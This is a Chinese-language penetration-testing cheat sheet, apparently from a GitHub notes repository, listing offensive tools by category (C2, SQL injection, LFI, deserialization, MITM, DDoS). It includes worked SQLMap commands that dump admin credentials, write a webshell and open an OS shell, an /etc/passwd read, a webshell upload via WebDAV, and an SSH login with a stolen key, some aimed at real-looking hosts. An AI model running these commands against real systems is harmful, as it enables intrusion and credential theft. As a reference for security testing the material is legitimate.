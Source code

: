漏洞利用
----------------------------------------

C2服务器
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `Ninja <https://github.com/ahmedkhlief/Ninja/>`_
- `Covenant <https://github.com/cobbr/Covenant>`_
- `WSC2 <https://github.com/ver007/WSC2>`_
- `Cobalt Strike <https://blog.cobaltstrike.com/category/cobalt-strike-2/>`_
- `GRAT2 <https://github.com/r3nhat/GRAT2.git>`_
- `MeetC2 <https://github.com/CMatri/MeetC2>`_

补丁比对
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `Zynamics Bindiff <https://dl.google.com/dl/zynamics/bindiff430.msi>`_
- `turbodiff <https://www.coresecurity.com/corelabs-research/open-source-tools/turbodiff>`_
- `patchdiff2 <https://code.google.com/archive/p/patchdiff2/downloads>`_
- `diaphora <http://diaphora.re/>`_

数据库注入
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `SQLMap <https://github.com/sqlmapproject/sqlmap>`_
	+ 默认选择不询问用户输入
		``--batch``
	+ 指定数据库类型为mysql，级别为3（共5级，级别越高，检测越全面）
		``sqlmap -u http://www.vuln.cn/post.php?id=1  –dbms mysql –level 3``
	+ cookie注入
		``sqlmap -u http://www.baidu.com/shownews.asp –cookie “id=11” –level 2``
	+ 列举数据库管理系统中的用户
		``–users``
	+ 列举并破解数据库管理系统用户密码Hash值
		``--passwords -v 1``
	+ 列举数据库管理系统的用户权限
		``–privileges``
	+ POST注入
		``sqlmap -u http://vip.fj0730.cn/login.asp --forms`` 
	+ POST查找数据库
		``sqlmap -u http://vip.fj0730.cn/login.asp --forms --dbs`` 
	+ POST查找当前的数据库
		``sqlmap -u http://vip.fj0730.cn/login.asp --forms --current-db`` 
	+ POST查找表名
		``sqlmap -u http://vip.fj0730.cn/login.asp --forms -D vip_0730 --tables`` 
	+ POST查找列名
		``sqlmap -u http://vip.fj0730.cn/login.asp --forms -D vip_0730 -T admin --columns`` 
	+ POST爆出数据
		``sqlmap -u http://vip.fj0730.cn/login.asp --forms -D vip_0730 -T admin -C user_name,user_pwd --dump`` 
	+ POST指定表单
		``sqlmap -u http://vip.fj0730.cn/login.asp --data "userid=aaa&passwd=bbbb"`` 
	+ POST加载文件
		``sqlmap -r "post.txt" -p n --dbs`` 
	+ POST查找当前数据库
		``sqlmap -u http://vip.fj0730.cn/login.asp --data "userid=aaa&passwd=bbbb" --current-db`` 
	+ 读取与写入文件
		| 首先找需要网站的物理路径，其次需要有可写或可读权限.
		| –file-read=RFILE 从后端的数据库管理系统文件系统读取文件 （物理路径）
		| –file-write=WFILE 编辑后端的数据库管理系统文件系统上的本地文件 （mssql xp_shell）
		| –file-dest=DFILE 后端的数据库管理系统写入文件的绝对路径
		| ``sqlmap -r “c:\request.txt” -p id –dbms mysql –file-dest “e:\php\htdocs\dvwa\inc\include\1.php” –file-write “f:\webshell\1112.php”``
	+ 执行命令
		``sqlmap -u http://192.168.159.1/news.php?id=1 --os-cmd=ipconfig`` 
	+ 使用shell命令
		``sqlmap -r “c:\tools\request.txt” -p id –dms mysql –-os-shell``
- `bbqsql <https://github.com/Neohapsis/bbqsql>`_

非结构化数据库注入
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `NoSQLAttack <https://github.com/youngyangyang04/NoSQLAttack>`_
- `NoSQLMap <https://github.com/codingo/NoSQLMap>`_
- `Nosql Exploitation Framework <https://github.com/torque59/Nosql-Exploitation-Framework>`_
- `MongoDB audit <https://github.com/stampery/mongoaudit>`_

数据库漏洞利用
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `mysql unsha1 <https://github.com/cyrus-and/mysql-unsha1>`_

XSS
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `BeEF <https://github.com/beefproject/beef>`_
- `XSS Reciver <https://github.com/firesunCN/BlueLotus_XSSReceiver>`_
- `DSXS <https://github.com/stamparm/DSXS>`_
- `XSStrike <https://github.com/s0md3v/XSStrike>`_
- `xsssniper <https://github.com/gbrindisi/xsssniper>`_
- `tracy <https://github.com/nccgroup/tracy>`_
- `crlfuzz <https://github.com/dwisiswant0/crlfuzz>`_
- `CRLF-Injection-Scanner <https://github.com/MichaelStott/CRLF-Injection-Scanner>`_

SSRF
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `SSRFmap <https://github.com/swisskyrepo/SSRFmap>`_
- `SSRF Proxy <https://github.com/bcoles/ssrf_proxy>`_
- `Gopherus <https://github.com/tarunkant/Gopherus>`_
- `SSRF Testing <https://github.com/cujanovic/SSRF-Testing>`_

模版注入
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `tplmap <https://github.com/epinna/tplmap>`_

命令注入
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `commix <https://github.com/commixproject/commix>`_

PHP
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `Chankro <https://github.com/TarlogicSecurity/Chankro>`_ Herramienta para evadir disable_functions y open_basedir

LFI
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `LFISuite <https://github.com/D35m0nd142/LFISuite>`_
- `FDsploit <https://github.com/chrispetrou/FDsploit>`_
	+ 目录遍历漏洞发现
		| ``python3 fdsploit.py -u http://192.168.100.106/index.php?page=about -d 8``
	+ LFI漏洞发现
		| ``python3 fdsploit.py -u http://192.168.100.106/index.php?page=about -d 7 -k root -p /etc/passwd``
		| -k 响应包中搜索关键字
		| -p 指定包含的文件
		| -d 指定路径包含的深度
- burpsuite
	+ Intruder->Sniper
		::
		
			file=§1§/etc/passwd
			选择Sniper攻击方式，payload type选择Character blocks
			Base string:../
			Min length:0
			Max length:20
			step:1

struts
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `struts scan <https://github.com/Lucifer1993/struts-scan>`_

DNS 隧道
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `dnstunnel de <https://dnstunnel.de/>`_
- `iodine <https://code.kryo.se/iodine/>`_
- `dnscat2 <https://github.com/iagox86/dnscat2>`_

XXE
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `XXEinjector <https://github.com/enjoiz/XXEinjector>`_
- `XXER <https://github.com/TheTwitchy/xxer>`_

反序列化
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `phpggc <https://github.com/wh1t3p1g/phpggc>`_
- `ysoserial <https://github.com/frohoff/ysoserial>`_
- `JRE8u20 RCE Gadget <https://github.com/pwntester/JRE8u20_RCE_Gadget>`_
- `Java Serialization Dumper <https://github.com/NickstaDB/SerializationDumper>`_
- `gadgetinspector <https://github.com/JackOfMostTrades/gadgetinspector>`_ A byte code analyzer for finding deserialization gadget chains in Java applications

端口Hack
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `Oracle Database Attacking Tool <https://github.com/quentinhardy/odat>`_
- `nmap vulners <https://github.com/vulnersCom/nmap-vulners>`_
- `nmap nse scripts <https://github.com/cldrn/nmap-nse-scripts>`_
- `Vulnerability Scanning with Nmap <https://github.com/scipag/vulscan>`_

JWT
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `jwtcrack <https://github.com/brendan-rius/c-jwt-cracker>`_

无线
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `infernal twin <https://github.com/entropy1337/infernal-twin>`_

中间人攻击
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `mitmproxy <https://github.com/mitmproxy/mitmproxy>`_
- `MITMf <https://github.com/byt3bl33d3r/MITMf>`_
- `ssh mitm <https://github.com/jtesta/ssh-mitm>`_
- `injectify <https://github.com/samdenty99/injectify>`_
- `Responder <https://github.com/lgandx/Responder>`_ Responder is a LLMNR, NBT-NS and MDNS poisoner, with built-in HTTP/SMB/MSSQL/FTP/LDAP rogue authentication server supporting NTLMv1/NTLMv2/LMv2, Extended Security NTLMSSP and Basic HTTP authentication. 

DHCP
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `DHCPwn <https://github.com/mschwager/dhcpwn>`_

DDoS
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `Saddam <https://github.com/OffensivePython/Saddam>`_

Bad USB
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `WiFiDuck <https://github.com/spacehuhn/WiFiDuck>`_ Keystroke injection attack plattform

ssh公钥登录
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
在服务端假如访问到.ssh目录，当服务端配置可以使用公钥登录时，可以拿到公钥id_rsa，然后使用 ``ssh -i id_rsa root@142.93.198.56`` 命令登录。

网站备份文件扫描
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `ihoneyBakFileScan <https://github.com/sry309/ihoneyBakFileScan>`_

payload&bypass
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `PayloadsAllTheThings <https://github.com/swisskyrepo/PayloadsAllTheThings>`_

webdav利用
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- webdav批量扫描：IISPutScanner
- `webdav利用工具 <http://www.webdav.org/cadaver/>`_
	+ ``cadaver http://door.legacyhangtuah.com/webdav/``
	+ 上传webshell: ``put shell.php``